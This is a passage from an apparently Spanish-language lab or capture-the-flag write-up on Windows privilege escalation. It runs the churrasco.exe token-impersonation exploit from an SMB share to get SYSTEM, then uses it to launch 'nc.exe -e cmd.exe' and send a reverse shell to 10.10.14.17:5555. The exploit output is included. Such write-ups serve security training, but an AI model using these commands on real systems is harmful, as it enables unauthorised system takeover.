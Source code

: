 
```bash
\\10.10.14.17\smbFolder\PetitPotato.exe

The image file \\10.10.14.17\smbFolder\PetitPotato.exe is valid, but is for a machine type other than the current machine.
```
{: .nolineno}

Por lo que se puede hacer uso de una versión del mismo pero para arquitectura x86 llamado [**churrasco.exe**](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe), para abusar de la vulnerabilidad.

```bash
\\10.10.14.17\smbFolder\churrasco.exe -d whoami

/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

nt authority\system
```
{: .nolineno}


Ahora se puede descargar una versión de [**Netcat**](https://github.com/int0x33/nc.exe/blob/master/nc.exe) compatible con el equipo y dejarlo dentro del servidor **SMB** para que se pueda ejecutar de forma remota y enviar una shell como el usuario de máximos privilegios.


```bash
\\10.10.14.17\smbFolder\churrasco.exe -d  "\\10.10.14.17\smbFolder\nc.exe -e cmd.exe 10.10.14.17 5555"

/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

c:\windows\system32\inetsrv>
```
{: .nolineno}
